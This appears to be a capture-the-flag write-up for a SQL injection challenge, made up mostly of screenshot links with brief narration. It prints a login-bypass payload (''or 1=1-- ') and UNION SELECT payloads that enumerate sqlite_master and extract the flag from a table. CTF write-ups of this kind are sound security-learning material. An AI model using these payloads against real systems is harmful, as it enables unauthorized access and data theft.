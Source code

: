 ![image](https://github.com/user-attachments/assets/a757af93-8a80-4d1e-8c6a-248311fd0e6e)

The sql query is given to us. All we have to do is find the right payload. 
In this instance, the password comes first in the query, lets enter the paayload "'or 1=1-- " payload in the password field.

![image](https://github.com/user-attachments/assets/fa5a493e-1c68-4c43-b602-4a60081dd540)

![image](https://github.com/user-attachments/assets/fa52e9d2-ecdf-4b83-8255-677da7e3724e)

It works, now we are given with a search field, probably it must be a vulnerable field.
1' UNION SELECT name, sql, null from sqlite_master;--

use this payload to find the table infomation.
![image](https://github.com/user-attachments/assets/52e9e073-0e0e-4bbd-9dd0-eb1a1b095827)

1' UNION SELECT flag, null, null from more_table;--

now lets grab the flag from more_table.

![image](https://github.com/user-attachments/assets/e7c883fe-5241-4dea-8e94-338a4ec21b64)
